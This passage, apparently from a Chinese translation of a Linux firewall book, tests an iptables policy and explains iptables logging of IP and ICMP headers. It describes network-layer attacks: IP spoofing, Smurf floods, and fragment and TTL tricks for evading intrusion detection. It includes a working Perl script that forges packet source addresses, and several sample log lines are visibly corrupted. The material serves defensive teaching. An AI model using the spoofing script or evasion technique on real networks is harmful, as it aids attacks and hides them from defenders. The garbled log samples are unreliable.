-A OUTPUT -p tcp -m tcp --dport 80 --tcp-flags FIN,SYN,RST,ACK SYN -m state --state NEW -J ACCEPT
-A OUTPUT -p tcp -m tcp --dport 443 --tcp-flags FIN,SYN,RST,ACK SYN -m state --state NEW -J ACCEPT
-A OUTPUT -p tcp -m tcp --dport 4321 --tcp-flags FIN,SYN,RST,ACK SYN -m state --state NEW -j ACCEPT
-A OUTPUT -p udp -m udp --dport 53 -m state --state NEW -j ACCEPT
-A OUTPUT -p icmp -m icmp --icmp-type 8 -j ACCEPT
-A OUTPUT -o ! lo -j LOG --log-prefix "DROP " --log-tcp-options --log-ip-options
COMMIT
# Completed on Sat Apr 14 17:35:22 2007
```

至此，我们拥有了一个功能完备的 iptables 策略，能够对试图穿越防火墙接口的数据包保持高度控制，并且我们有一种便捷的方法，通过对 `ipt.save` 文件执行 `iptables-restore` 命令来快速恢复该策略。这在加速系统启动周期方面有明显的应用价值，但它对于测试新策略也很有用，因为它可以极其容易地恢复到已知良好的状态。不过，还缺少一件事：通过编辑脚本而不是直接编辑 `ipt.save` 文件（后者有严格的语法要求，不像 Bourne shell 脚本那样为人熟知）来修改 iptables 策略是最简单的。

### 测试策略：TCP

一旦在 Linux 内核中创建了 iptables 策略并验证了通过防火墙的基本连通性，测试该策略以确保虚拟装甲没有漏洞是一个好主意。最重要的是从一个位于本地网络之外的主机测试 iptables 策略，因为大多数攻击都源自于此（假设大量用户不在内部系统中）。然而，从内部网络进行有效测试同样重要，因为内部主机可能会被攻破，然后被用来攻击其他内部主机（包括防火墙），即便 iptables 正在保护整个网络。如果内部网络中存在未打补丁的系统，客户端漏洞（例如 Microsoft JPEG 漏洞 [9]）会使这种情况成为现实的可能性。

为了开始测试策略，我们首先测试那些不应从内部或外部网络访问的 TCP 端口。回顾一下，RFC 793 要求一个正确实现的 TCP 栈在关闭的端口上收到 SYN 数据包时应生成一个重置（`RST/ACK` [10]）数据包。这为我们提供了一个简单的验证方法，用以确认 iptables 确实在拦截数据包，因为如果连接尝试没有收到 `RST/ACK` 数据包作为响应，则表明 iptables 已在内核中截获了 SYN 数据包，并且没有允许 TCP 栈向客户端生成 `RST/ACK`。

我们随机选择 TCP 端口 5500，从内部和外部主机进行测试。下面的示例演示了这一测试，并表明 iptables INPUT 链确实在正确运行，因为数据包不仅被丢弃，而且还生成了相应的日志消息。首先，我们从 `ext_scanner` 系统开始，使用 Netcat 尝试连接防火墙上的 TCP 端口 5500。正如预期的那样，Netcat 客户端直接挂起，而在防火墙本身上，生成了一条日志消息，表明 iptables 截获并丢弃了一个发往端口 5500 的 TCP SYN 数据包：

```
[text scanner]# nc -V 71.157.X.X 5500
[iptablesfw]# tail /var/log/messages |grep 5500
Apr 14 16:52:43 iptablesfw kernel: DROP IN=eth0 OUT= MAC=00:13:d3:38:b6:e4:00:40:30:48:
80:4e:37:08:00 SRC=192.10.X.X DST=71.157.X.X LEN=60 TOS=0x00 PREC=0x00 TTL=64
ID=54983 DP=PROTO=TCP SPT=59604 DPT=5500 WINDOW=5840 RES=0x00 SYN URG=0 OPT
(020405840402080A10E92041000000001030306)
```

> **注意**
> 上述 iptables 日志信息是本书中出现的第一个，你可能会觉得难以理解。我将在第 2 章和第 3 章中详细讲解 iptables 日志信息（并侧重于如何识别可疑流量）。

同样地，我们在内部网络中也得到了相同的结果：

```
[int scanner]# nc -V 192.168.101.1 5500
[iptablesfw]# tail /var/log/messages |grep 5500 |tail -n 1
Apr 14 16:55:53 iptablesfw kernel: DROP IN=eth1 OUT= MAC=00:13:46:3a:41:4b:00:a0:0a:cc:
28:42:5a:08:00 SRC=192.168.10.X DST=192.168.101.1 LEN=60 TOS=0x10 PREC=0x00 TTL=64
ID=45859 DP=PROTO=TCP SPT=58715 DPT=5500 WINDOW=5840 RES=0x00 SYN URG=0 OPT
(020405840402080A10E92041000000001030306)
```

如果在上述代码示例的任何一次测试中，我们收到一个 `RST/ACK` 数据包（这将表明 iptables 在 SYN 数据包有机会与网络接口上运行的 TCP 栈交互之前没有将其拦截），Netcat 将会显示 `Connection refused`（连接被拒绝）的消息。

> **注意**
> 对防火墙运行 Nmap 以严格测试 iptables 策略是一个好主意。Nmap 提供了许多不同的扫描类型，有助于确保 iptables 提供的连接跟踪和过滤能力正在发挥作用。例如，向关闭的端口发送一个意外的 FIN 数据包（见 Nmap 的 `-sF` 扫描模式），如果 iptables 工作正常，则不应诱发出 `RST/ACK` 数据包。同样，生成不属于任何已建立会话的 TCP ACK 数据包（Nmap 的 `-sA` 模式）应该也会遭到完全的沉默，因为连接跟踪子系统能够识别出此类数据包不属于任何合法的 TCP 会话。

### 测试策略：UDP

接下来，我们将测试 iptables 过滤 UDP 端口的能力。运行在 UDP 套接字上的服务器与运行在 TCP 套接字上的服务器处于完全不同的世界。UDP 是一种无连接协议，因此在 UDP 流量中没有类似于 TCP 握手的概念，甚至没有确认数据的机制。虽然可以在运行在 UDP 之上的应用程序中构建可靠数据传输等类似结构，但这需要应用层的修改，而 TCP 则是免费内置了这些特性。UDP 只是简单地将数据包抛到网络上，并希望它们能到达预定目的地。


为了证明`iptables`确实对`UDP`流量正常工作，我们再次从内部和外部系统向`UDP`端口`5500`发送数据包，就像我们对`TCP`所做的那样。不过，这一次，如果我们的`UDP`数据包没有被过滤，我们应该会在客户端收到一个`ICMP Port Unreachable`（端口不可达）的消息。这次我们使用`hping`工具（参见[http://www.hping.org](http://www.hping.org)）。在外部和内部主机尝试与防火墙上运行的`UDP`栈通信的两种情况下，`iptables`都正确地拦截了数据包。首先我们从外部主机进行测试：

```
[ext scanner]# hping -2 -p 5500 71.157.X.X
HPING 71.157.X.X (eth0 71.157.X.X): udp mode set, 28 headers + 0 data bytes
[iptablesfw]# tail /var/log/messages | grep 5500
Apr 14 16:58:31 iptablesfw netfilter DROP IN=eth0 OUT= 
MAC=00:13:3b:8e4:00:130:48:8e4:00:138:00 SRC=144.202.X.X DST=71.157.X.X
LEN=28 TTL=0 EXE=0 PROT=TTL=64 ID=22084 PROTO=UDP SPT=2202 DPT=5500 LEN=8
```

同样地，我们在内部网络中也得到了相同的结果：

```
[int scanner]# hping -2 -p 5500 192.168.10.1
HPING 192.168.10.1 (eth0 192.168.10.1): udp mode set, 28 headers + 0 data bytes
[iptablesfw]# tail /var/log/messages | grep 5500 | tail -n 1
Apr 14 17:00:24 iptablesfw netfilter DROP IN=eth1 OUT= 
MAC=00:13:3a:41:b4:00a:0cc:28:224:5a:00 SRC=192.168.10.200
DST=192.168.10.1 LEN=28 TTL=0 EXE=0 PRC=0x00 TTL=64 ID=35261 PROTO=UDP SPT=2647
DPT=5500 LEN=8
```

## 注意

这引发了一个关于安全的有趣观察：在这些测试中，任何非特权用户都可以使用`Netcat`监听`TCP`或`UDP`端口`5500`，但我们将完全无法从任何未经`iptables`策略明确允许的`IP`地址访问该服务器。这意味着，在系统上启动的任何服务器，如果不修改`iptables`策略，都无法对系统的整体安全性（至少是从远程攻击角度来看）产生不利影响。这是一个强大的概念，它支持了在每个系统上都应部署防火墙的观点；面对潜在被攻破的风险，管理防火墙策略所增加的工作量是非常值得的。

## 测试策略：ICMP

最后，我们将测试`ICMP`的`iptables`策略。在构建策略时使用的`iptables`命令使用了`--icmp-type`选项，将可接受的`ICMP`数据包限制为仅`Echo Request`（回显请求）数据包（连接跟踪代码允许发送相应的`Echo Reply`（回显应答）数据包，因此不需要添加显式的`ACCEPT`规则来允许此类应答）。因此，`iptables`应该允许所有`Echo Request`数据包，但其他`ICMP`数据包应该遭到完全的沉默。我们通过在不发送任何相应`Echo Request`数据包的情况下生成`ICMP Echo Reply`数据包来测试这一点，这应该会导致`iptables`将这些数据包匹配到输入链开头的`INVALID`状态规则上。同样，轮到我们从内部和外部网络使用`hping`进行测试了。第一次测试是从外部网络生成一个未经请求的`ICMP Echo Reply`数据包，我们预计`iptables`将在`INPUT`链中记录并丢弃该数据包。通过检查`iptables`日志，我们发现事实确实如此（`DROP INVALID`日志前缀已加粗）：

```
[ext_scanner#] hping -1 --icmp-type=echo-reply 71.157.X.X
HPING (eth1 71.157.X.X): icmp mode set, 28 headers + 0 data bytes
--- 71.157.X.X hping statistic ---
2 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
[iptablesfw#] tail /var/log/messages | grep ICMP
Apr 14 17:04:58 iptablesfw kernel: DROP INVALID IN=eth0 OUT= 
MAC=00:13:d3:b8:3d:b6 e4:00:d3:40:28:80 SRC=144.202.X.X DST=71.157.X.X 
LEN=58 TOS=0x00 TTL=64 PREC=0x00 ID=44271 PROTO=ICMP TYPE=0 CODE=0 ID=21551 
SEQ=0
```

同样，从内部网络也能得到相同的结果：

```
[int_scanner#] hping -1 --icmp-type=echo-reply 192.168.10.1
HPING (eth1 192.168.10.1): icmp mode set, 28 headers + 0 data bytes
--- 192.168.10.1 hping statistic ---
2 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
[iptablesfw#] tail /var/log/messages | grep ICMP | tail -n 1
Apr 14 17:06:45 iptablesfw kernel: DROP INVALID IN=eth1 OUT= 
MAC=00:13:46:3a:41:b8 00:a0:c8:28:d2:5a:58:08 SRC=192.168.10.200 
DST=192.168.10.1 LEN=58 TOS=0x00 TTL=64 PREC=0x00 ID=36520 PROTO=ICMP TYPE=0 
CODE=0 ID=41341 SEQ=0
```

***

³ 所有不可路由地址的集合在`RFC 1918`中定义。按照惯例，此类地址在开放的互联网上是不可路由的。

⁴ 这里的`connection`（连接）是`Netfilter`用于对数据包进行分类的跟踪机制。

⁵ 关于`iptables.sh`脚本的一点需要注意：所有的`LOG`规则都是使用`--log-ip-options`和`--log-tcp-options`命令行参数构建的。这使得生成的`iptables` `syslog`消息能够在匹配`LOG`规则的数据包包含`IP`和`TCP`选项部分时，将这些部分包含在`IP`和`TCP`标头中。此功能对于`psad`执行的攻击检测和被动`OS`指纹识别操作非常重要（见第 7 章）。

⁶ 更多信息请参阅[http://www.securityfocus.com/archive/1/375204/2004-09-09/2004-09-15/0](http://www.securityfocus.com/archive/1/375204/2004-09-09/2004-09-15/0)。

⁷ 关于`RST`数据包是否设置了`ACK`位的细节将在第 3 章中详细讨论。

## 总结思考

本章重点介绍了对本书后续部分至关重要的`iptables`概念，并为从`iptables`角度讨论入侵检测和响应奠定了基础。现在，我们已经拥有了一套默认的`iptables`策略和网络拓扑图（将在接下来的几个章节中多次引用），并且通过`iptables`日志消息的示例了解了其日志格式的完整性。现在，我们准备好深入探讨那些我们可以利用`iptables`检测——并且如我们将看到的——能够挫败的攻击手段。

# 第 2 章 网络层攻击与防御

网络层（`OSI`参考模型中的第三层）是互联网上端到端路由和数据包交付的主要机制。本书主要关注通过`IPv4`网络协议实施的攻击，尽管还存在许多其他网络协议，如`IPX`、`X.25`以及潜伏的`IPv6`协议。

在本章中，我们将首先重点讨论`iptables`如何在日志消息输出中记录网络层数据包头。然后，我们将探讨如何利用这些日志来捕捉可疑的网络层活动。

## 使用 iptables 记录网络层报头

通过`iptables`的`LOG`目标，使用`iptables`构建的防火墙能够将`IPv4`报头中几乎每个字段的日志数据写入`syslog`。由于`iptables`的日志格式非常详尽，因此非常适合支持对许多网络层报头滥用行为的检测。

### 记录 IP 报头

`IP`报头由`RFC 791`定义，该文档描述了`IP`所使用的报头结构。图 2-1 展示了`IP`报头，阴影方框代表`iptables`将其包含在日志消息中的报头字段。每个阴影方框包含`IP`报头字段名称，随后是`iptables`在日志消息中用于标记该字段的标识字符串。例如，“总长度”字段的前缀是字符串`LEN=`，随后是数据包中的实际总长度值；“生存时间 (TTL)”字段的前缀是`TTL=`，随后是`TTL`值。



**图 2-1. IP 报头及相应的 iptables 日志消息字段**

图 2-1 中的深灰色方框始终会被`iptables`记录。白色方框表示在任何情况下都不会被`iptables`记录的报头字段。中灰色方框代表`IP`报头的选项部分。该方框被标记为中灰色，是因为只有在向`iptables`策略添加`LOG`规则时使用了`--log-ip-options`命令行参数，`iptables`才会记录`IP`选项。

以下是一个示例`iptables`日志消息，该消息是由`ext_scanner9`系统向`iptablesfw`系统发送`ICMP Echo Request`（回显请求）时生成的（参考图 2-1）：

```
[ext_scanner9] ping -c 1 71.157.X.X
PING 71.157.X.X (71.157.X.X) 56(84) bytes of data.
64 bytes from 71.157.X.X: icmp_seq=1 ttl=64 time=0.171 ms

--- 71.157.X.X ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.171/0.171/0.171 ms
[iptablesfw] tail -f /var/log/messages | grep ICMP | tail -n 1
Jul 22 05:01:25 IPtables kernel: IN=eth0 OUT= MAC=00:13:d3:3b:8e:b4:00:20:30:d8:40:8e src=144.202.X.X dst=71.157.X.X LEN=84 TOS=0x00 PREC=0x00 TTL=64 ID=0 DF PROTO=ICMP TYPE=0 CODE=0 ID=0 44366 SEQ=1
```

上方方框中的`IP`报头日志消息包含了源`IP`地址（已扩展为标准的点分十进制表示法）。其他`IP`报头字段，如目的`IP`地址、`TTL`值和协议字段，均以**粗体**显示。服务类型字段 (`TOS`) 以及优先级和相应的类型位，分别作为`TOS`和`PREC`字段的十六进制值列出。在这种情况下，“标志”报头字段被包含为字符串`DF`（即`Don't Fragment`，不分片），这表明`IP`网关不允许将该数据包拆分为更小的块。最后，`PROTO`字段是`IP`报头所封装的协议——在本例中为`ICMP`。上述日志消息中的其余字段（包括`ping`命令发送的`ICMP Echo Request`数据包中的`ICMP TYPE`、`CODE`、`ID`和`SEQ`值）不属于`IP`报头的一部分。

### 记录 IP 选项

`IP`选项为`IP`通信提供了各种控制功能，这些功能包括时间戳、某些安全能力以及针对特殊路由功能的规定。`IP`选项的长度可变，且在互联网上地使用频率较低。如果没有`IP`选项，`IP`数据包报头的长度始终恰好为`20`字节。为了让`iptables`记录`IP`报头的选项部分，请使用以下命令（注意**粗体**显示的`--log-ip-options`开关）：

```
[iptablesfw]# iptables -A INPUT -j LOG --log-ip-options
```

在第 1 章中由`iptables.sh`脚本构建的策略中的默认`LOG`规则都使用了`--log-ip-options`命令行参数，因为`IP`选项可能包含具有安全影响的信息。

现在，为了演示包含`IP`选项的`iptables`日志消息，我们再次`ping` `iptablesfw`系统，但这次我们指令`ping`消息包含一个时间戳选项：

```
[ext_scanner]# ping -c 1 -T tsonly 71.157.X.X
PING 71.157.X.X (71.157.X.X) 56(124) bytes of data.
64 bytes from 71.157.X.X: icmp_seq=1 ttl=64 time=0.211 ms
TS:
 68379524 absolute
 578
 0
 -578
 --- 71.157.X.X ping statistics ---
 1 packets transmitted, 1 received, 0% packet loss, time 0ms
 rtt min/avg/max/mdev = 0.211/0.211/0.211/0.000 ms
[iptablesfw]# tail -vr /var/log/messages | grep ICMP
Jul 22 15:03:00 iptablesfw kernel: IN=eth0 OUT= MAC=00:13:3b:d8:8f:ce SRC=144.202.X.X DST=71.157.X.X
LEN=128 TOS=0x00 PREC=0x00 TTL=64 ID=0x IP PROTO=ICMP OPTION=00416706040041670306004000000000
00000000000000000000000000000000000000000000000000000000 PROTO=ICMP TYPE=8 CODE=0
ID=57678 SEQ=1
```

在上述日志中，字符串`OPTION`之后跟着一长串十六进制字节。这些字节是`IP`报头中包含的完整`IP`选项，但`iptables LOG`目标并不会为我们对其进行解码；正如你在第 7 章将看到的，我们会使用`psad`来解析它们。

### 记录 ICMP

`iptables LOG`目标有专门用于记录`ICMP`的代码，由于`ICMP`存在于网络层，我们将接着讨论它。`ICMP`（由`RFC 792`定义）具有一个更简单的报头，宽度仅为`32`字节。图 2-2 展示了`ICMP`报头。该报头由三个字段组成：`type`（8 位）、`code`（8 位）和校验和（16 位）；其余字段是`ICMP`数据包的数据部分。

数据部分内的具体字段取决于`ICMP`的类型 (`type`) 和代码 (`code`) 值。例如，与`ICMP Echo Request`（类型 8，代码 0）相关的字段包括一个`ID`和一个序列值。



**图 2-2. ICMP 报头及相应的 iptables 日志消息字段**

与`IP`报头一样，`LOG`目标始终记录`TYPE`和`CODE`字段，且绝不记录`ICMP`校验和字段。`iptables`中没有命令行参数可以影响`LOG`目标如何表示`ICMP`数据包数据部分中的字段。本章中第一个`Echo Request`数据包的`ICMP`字段出现在下面的最后一行开始处：

```
Jul 22 15:01:25 iptablesfw kernel: IN=eth0 OUT= 
MAC=00:13:3d:38:b6:84 src=144.2.X.X DST=71.157.X.X 
LEN=64 TOS=00 PREC=00 TTL=64 ID=0 DF PROTO=ICMP 
TYPE=8 CODE=0 ID=4336 SEQ=1
```

***

[^11] `IPv6`报头同样如此，但本书不涵盖`IPv6`。

[^12] `IP`分片偏移（`IP Fragment Offset`）有一个例外——仅在其值非零时才会被`iptables`记录。

[^13] 为了在`syslog`消息中提高可读性，`iptables LOG`目标会自动将内核中`IP`地址的整数表示转换为点分十进制表示法。此外还有其他类似的转换，例如`TCP`标志，我们将在第 3 章中看到。参考：`iptables LOG`目标的内核部分实现在内核源码的`linux/net/ipv4/netfilter/ipt_LOG.c`文件中。

[^14] 与某些人倾向于将`ICMP`归类到`TCP`和`UDP`等传输层协议之不同，`ICMP`被认为是一种网络层协议。参见 W. Richard Stevens 的著作 *TCP/IP Illustrated, Volume 1* 第 69 页 (Addison-Wesley, 1994)。


通过检查 Linux 内核中 `LOG` 目标源代码（见`linux/net/ipv4/netfilter/ipt_LOG.c`文件）从第 249 行开始的`switch`语句，可以发现对此进行阐述。

## 网络层攻击定义

我们将网络层攻击定义为：利用网络层报头字段的单个或系列数据包，旨在利用端主机网络栈实现中的漏洞、消耗网络层资源，或掩盖针对更高层攻击的传输。

网络攻击分为以下三类：

### 报头滥用（Header abuse）

包含恶意构建、损坏或伪造的网络层报头的数据包。示例包括源地址被欺骗的 IP 数据包，以及包含不切实际的分片偏移值的数据包。

### 网络栈漏洞利用（Network stack exploits）

包含特殊构建的组件的数据包，旨在利用端主机网络栈实现中的漏洞。也就是说，专门用于处理网络层信息的代码本身就是目标。一个典型的例子是 Linux 内核（2.6.9 及更早版本）中发现的互联网组管理协议（IGMP）拒绝服务（DoS）漏洞¹⁶。

### 带宽饱和（Bandwidth saturation）

旨在使目标网络上所有可用带宽达到饱和的数据包。通过 ICMP 发送的分散式拒绝服务（DDoS）攻击就是一个很好的例子。

## 注意

虽然本章重点讨论滥用网络层的技术，但需要注意的是，许多此类技术可以与其他层的攻击相结合。例如，应用层攻击（比如利用缓冲区溢出漏洞的攻击）可以通过分片 IP 数据包发送，以试图规避入侵检测系统（IDS）。在这种情况下，真正的攻击利用的是应用层漏洞，但它是使用一种称为分片（fragmentation）的网络层技术交付的，这使得应用层攻击更难以被检测。

> ¹⁶ Linux 内核 IGMP 漏洞在常见漏洞披露（CVE）数据库中被指定为 CVE-2004-1137，该数据库是目前最优秀的漏洞跟踪机制之一。详见`http://cve.mitre.org/cve`。

## 滥用网络层

网络层将数据包路由到全球目的地的能力，同时也提供了攻击全球目标的能力。由于 IPv4 没有身份验证的概念（这项工作交给 IPSec 协议或更高层的机制），攻击者很容易构建具有操纵报头或数据的 IP 数据包并将其发送到网络中。虽然这类数据包在到达预定目标之前可能会被内联过滤设备（如防火墙或带有访问控制列表（ACL）的路由器）过滤，但这种情况经常不发生。

### Nmap ICMP Ping

当使用 `Nmap` 扫描不在同一子网的系统时，主机发现是通过向目标主机发送 ICMP Echo Request 和向 80 端口发送 TCP ACK 来完成的。（可以通过 `Nmap` `-Pn` 命令行参数禁用主机发现，但默认情况下是启用的。）`Nmap` 生成的 ICMP Echo Request 与`ping`程序生成的 Echo Request 的不同之处在于，`Nmap` 的 Echo Request 除了 ICMP 报头外不包含任何数据。因此，如果此类数据包被`iptables`记录，IP 字段长度应为 28（不含选项的 IP 报头 20 字节，加上 ICMP 报头 8 字节，加上 0 字节数据，如粗体所示）：

```bash
[ext_scanner]# nmap -sP 71.157.X.X
[iptablesfw]# tail /var/log/messages | grep ICMP
Jul 24 22:29:59 iptablesfw kernel: IN=eth0 OUT=
MAC=00:11:33:d3:8b:e4 Src=00:30:48:180:ce:14 Std=144.202.X.X DST=71.157.X.X
LEN=28 TOS=0x00 PREC=0x00 TTL=48 ID=1739 PROTO=ICMP TYPE=0 CODE=0 ID=15854
SEQ=62292
```

## 注意

`ping`程序也可以通过使用`-s 0`命令行参数将有效载荷大小设置为 0，从而生成不包含应用层数据的数据包，但默认情况下`ping`程序会包含几十字节的有效载荷数据。

虽然在 ICMP 数据包中不包含应用层数据本身并不构成对网络层的滥用，但如果你看到此类数据包与指示端口扫描或端口扫描（见第 3 章）等活动的数据包同时出现，那么很有可能有人正在使用 `Nmap` 对你的网络进行侦察。

### IP 欺骗（IP Spoofing）

在计算机安全领域，很少有术语像“欺骗”（spoofing），特别是 IP 欺骗这样引起如此多困惑和夸张描述的。Spoof 原意是恶作剧或骗局，IP 欺骗意味着故意构建一个具有伪造源地址的 IP 数据包。

## 注意

这里我们将 IP 数据包的网络地址转换（NAT）操作排除在外，NAT 会修改源地址（例如防火墙通常提供此功能，以通过单个外部地址保护内部网络）。不要将 NAT 与 IP 欺骗混淆，NAT 是一种合法的网络功能，而使用伪造的源地址来掩盖攻击则不然。

在进行 IP 通信时，对数据包的源地址没有内置限制。通过使用原始套接字（raw socket，一种用于根据特定标准构建数据包的低级编程 API），可以发送具有任意源地址的 IP 数据包。如果源地址在本地网络的语境下毫无意义（例如，源地址是 Verizon 网络的 IP，但数据包实际上是从 Comcast 网络发送的），则该数据包被认为是被欺骗的。管理员可以采取措施配置路由器和防火墙，使其不转发源地址在内部网络范围之外的数据包（这样欺骗的数据包就无法发出），但许多网络并没有这样的控制措施。第 1 章讨论的默认`iptables`策略中内置了反欺骗规则。

从安全角度来看，关于欺骗数据包（以及一般的 IP 数据包）最重要的知识是：不可能信任源地址。事实上，有时一次完整的攻击可以通过单个欺骗数据包来交付（见第 8 章中关于 Witty 蠕虫的讨论）。

## 注意

任何具有欺骗源地址的数据包纯粹是“发后即忘”的，因为目标对该数据包的任何响应都会被定向回那个虚假的、被欺骗的地址。不过，可以通过意识到任何需要双向流量的协议（如传输层的 TCP）无法在欺骗的 IP 地址上运行来获得一定的安慰¹⁷。

许多安全软件（无论是攻击性的还是防御性的）都包含欺骗源 IP 地址的能力。分散式拒绝服务（DDoS）工具通常将 IP 欺骗视为必要条件，而像`hping`和`Nmap`这样著名的工具也可以欺骗源地址。

### ip_spoofing_with_perl

使用`hping`等工具或你自己的欺骗工具，构建一个具有欺骗源地址的数据包极其简单。下面是一个简单的 Perl 代码片段，它构建了一个具有欺骗源地址的 UDP 数据报，并包含你选择的应用层数据（本示例中的“滥用”部分是欺骗的源地址）。该脚本使用了`Net::RawIP` Perl 模块；源 IP 地址在 ❶ 处从命令行读取，然后在 ❷ 处的 IP 报头中设置。

```perl
#!/usr/bin/perl -w

use Net::RawIP;
use strict;

my $src = @ARGV[0] or usage();
my $dst = @ARGV[1] or usage();
my $str = @ARGV[2] or usage();

my $rawpkt = new Net::RawIP({
    ip => {
        saddr => $src,
        daddr => $dst
    },
    udp => {}
});

$rawpkt->set({
    ip => {
        saddr => $src,
        daddr => $dst
    },
    udp => {
        source => 10001,
        dest => 53,
        data => $str,
    }
});

$rawpkt->send();
print ('+') . ' Sent ' . length($str) . ' bytes of data...\n';
exit 0;

sub usage() {
    die "usage: $0 <src> <dst> <str>";
}
```

## IP 分片（IP Fragmentation）

将 IP 数据包拆分为一系列较小数据包的能力是 IP 的一个核心特性。拆分 IP 数据包的过程被称为分片（fragmentation），每当 IP 数据包被路由到数据链路 MTU（最大传输单元）尺寸过小而无法容纳该数据包的网络时，分片就是必要的。任何连接两个具有不同 MTU 尺寸的数据链路层的路由器都有责任确保从一个数据链路层传输到另一个数据链路层的 IP 数据包永远不会超过 MTU。目的主机的 IP 栈将重新组装 IP 分片以创建原始数据包，此时，数据包中封装的协议将被递交给栈中的下一层。

攻击者可以将 IP 分片用作 IDS 规避机制，通过构建一个攻击并故意将其拆分到多个 IP 分片中。任何完整实现的 IDS 都可以重新组装分片流量，但为了检测攻击，IDS 还必须使用与目标 IP 栈相同的算法来重新组装流量。由于不同的 IP 栈实现重新组装算法略有不同（例如，对于重复分片，Cisco IOS IP 栈根据“最后分片”策略重新组装流量，而 Windows XP 栈则根据“第一分片”策略重新组装），这给 IDS 带来了挑战。[18] 生成分片流量的金标准是 Dug Song 的`fragroute`工具（详见`http://www.monkey.org`）。

## 低 TTL 值

任何 IP 路由器在将 IP 数据包转发到另一个系统时，都应当将 IP 标头中的 TTL（生存时间）值减 1。如果在你的本地子网中出现了 TTL 值为 1 的数据包，那么很有可能有人正在对某个 IP 地址使用`traceroute`程序（或其变体，如`teptraceroute`），而该地址要么存在于本地子网中，要么位于通过本地子网路由的子网中。通常，这只是有人在排除网络连接问题，但它也可能是有人在对你的网络进行侦察，以绘制出到达潜在目标的跳数图。

## 注意

目的地为组播地址（根据 RFC 1112 定义，范围在 224.0.0.0 到 239.255.255.255 之间的所有地址）的数据包通常将 TTL 值设置为 1。因此，如果目的地址是组播地址，那么此类流量很可能与使用`traceroute`进行的网络映射行为无关，而仅仅是合法的组播流量。

由`traceroute`产生的 UDP 数据包被`iptables`记录如下（注意粗体显示的 TTL）：

```
Jul 24 0:10:55 IP kernels fw: DROP IN=eth0 OUT= MAC=00:13:d3:3b:16:e100:411:c2:160:44:08:00 SRC=144.202.X.X DST=157.157.X.X LEN=40 TOS=0x00 PREC=0x00 TTL=1 ID=4080! PROTO=UDP SPT=54522 DPT=33438 LEN=20
```

## 利用分片和定向 TTL 掩盖攻击

路由路径信息对于利用分片重组技巧来掩盖网络攻击非常有用。例如，假设攻击者发现目标主机前存在一个路由器（通过`traceroute`确定），并且攻击者怀疑有一个 IDS（入侵检测系统）正在监视目标主机子网之前的那个子网。在这种情况下，可以使用由三个 IP 数据包（我们称之为 f1, f2 和 f3）分片的攻击来针对该主机，但其方式使得 IDS 无法检测到该攻击。攻击者可以通过创建第二个分片（f2）的副本，将其有效载荷替换为伪造数据，并将其 TTL 降低到一个初始值，使其刚好足够在到达该路由器时 TTL 值为 1。我们将这个数据包称为 f2'。接着，攻击者依次发送第一个分片（f1）、新分片（f2'）、f3，最后发送原始的 f2 分片。这样，IDS（位于路由器之前）会看到所有四个分片，但 f3 完成了分片集，因此 IDS 将其重组为 f1 + f2' + f3。

回想一下，f2' 包含的是伪造数据，因此这三个分片组合在一起在 IDS 看来并不像一次攻击。与此同时，f2' 到达路由器后被丢弃，因为在被转发之前其 TTL 值已被减至 0，所以目标 IP 地址永远不会看到 f2'。然而，主机已经看到了分片 f1 和 f3，但如果没有原始的 f2，它无法将它们重组为任何有意义的内容，因此它会继续等待。

当 f2 最终到达时（记得攻击者最后才发送它），目标主机在最终重组所有三个分片后，便遭受了真正的攻击。这种技术最早由 Vern Paxson 在 "Bro: A System for Detecting Network Intruders in Real-Time" 中提出（参见 `http://www.jcir.org/vern/papers/bro-cn99.html`）；它提供了一种巧妙地利用网络层来向网络入侵检测系统隐藏攻击的方法。

## 注意

对于本地子网上的任何数据包，另一个可疑的 TTL 值是 0。此类数据包仅在两种情况下才会存在：要么是一个存在严重 Bug 的路由器将该数据包转发到了子网中，要么该数据包源自同一子网中的系统。

## Smurf 攻击

Smurf 攻击是一种古老但优雅的技术，攻击者通过向网络广播地址发送伪造的 ICMP Echo Request（回显请求）来实现。伪造的源地址是预期目标，其目的是让所有响应广播地址 Echo 请求的系统尽可能多地向目标发送 ICMP Echo Response（回显响应）数据包，从而淹没目标。如果网络在没有针对这些发往广播地址的 ICMP Echo 请求实施控制（例如在 Cisco 路由器上使用`no ip directed-broadcast`命令）的情况下运行，那么所有收到 Echo 请求的主机都将响应那个伪造的源地址。通过使用大型网络的广播地址，攻击者希望放大针对目标生成的数据包数量。

与那些拥有专用控制通道且没有简单路由器配置对策的 DDoS 攻击工具（下文讨论）相比，Smurf 攻击已经过时。尽管如此，它仍值得提及，因为 Smurf 攻击非常容易实施，且原始源代码很容易获得（参见 `http://www.phreak.org/archives/source/denials/smurf.c`）。

## DDoS 攻击

